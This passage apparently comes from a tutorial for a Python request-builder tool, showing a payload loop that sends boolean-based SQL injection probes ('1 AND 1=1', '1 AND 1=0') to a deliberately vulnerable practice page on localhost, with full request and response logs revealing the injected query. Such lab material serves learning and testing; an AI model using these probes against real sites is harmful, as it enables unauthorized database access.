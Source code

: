 Now, we will create a loop, that will send our payload and show the result.

```
>>> loop(rb)

[*] You are entering on payload mode, enter a payload to quick send it via your request builder.

payload : >>> 1=1
[*] (request) http://127.0.0.1:8181/comment.php?id=1+AND+1%3D1&log=1
    (headers) {'User-Agent': 'python-requests/2.20.0', 'Accept-Encoding': 'gzip, deflate', 'Accept': '*/*', 'Connection': 'keep-alive'}
    (body) None
[*] (response) 200
    (headers) {'Date': 'Tue, 19 Feb 2019 15:04:58 GMT', 'Server': 'Apache/2.4.25 (Debian)', 'X-Powered-By': 'PHP/7.3.2', 'Vary': 'Accept-Encoding', 'Content-Encoding': 'gzip', 'Content-Length': '259', 'Keep-Alive': 'timeout=5, max=100', 'Connection': 'Keep-Alive', 'Content-Type': 'text/html; charset=UTF-8'}
    (text body)
 <h2>filtered injection</h2>

<p>special chars ('";#-) are filtereds, can you inject me?</p>
<p>note : to see log, set a cookie, get or post log=1</p>

<a href="/comment.php?id=1">/comment.php?id=1</a>

<p>[*] filter id : "1 AND 1=1" ==> "1 AND 1=1"</p>
<p>[*] "SELECT id, name, text FROM comments WHERE id=1 AND 1=1"</p>
<br /><br /><p>comment 1</p><h2>admin</h2><p>Hi!</p>


payload : >>> 1=0
[*] (request) http://127.0.0.1:8181/comment.php?id=1+AND+1%3D0&log=1
    (headers) {'User-Agent': 'python-requests/2.20.0', 'Accept-Encoding': 'gzip, deflate', 'Accept': '*/*', 'Connection': 'keep-alive'}
    (body) None
[*] (response) 200
    (headers) {'Date': 'Tue, 19 Feb 2019 15:05:15 GMT', 'Server': 'Apache/2.4.25 (Debian)', 'X-Powered-By': 'PHP/7.3.2', 'Vary': 'Accept-Encoding', 'Content-Encoding': 'gzip', 'Content-Length': '254', 'Keep-Alive': 'timeout=5, max=100', 'Connection': 'Keep-Alive', 'Content-Type': 'text/html; charset=UTF-8'}
    (text body)
 <h2>filtered injection</h2>

<p>special chars ('";#-) are filtereds, can you inject me?</p>
<p>note : to see log, set a cookie, get or post log=1</p>

<a href="/comment.php?id=1">/comment.php?id=1</a>

<p>[*] filter id : "1 AND 1=0" ==> "1 AND 1=0"</p>
<p>[*] "SELECT id, name, text FROM comments WHERE id=1 AND 1=0"</p>
<br /><br /><p>[-] No results</p>
```
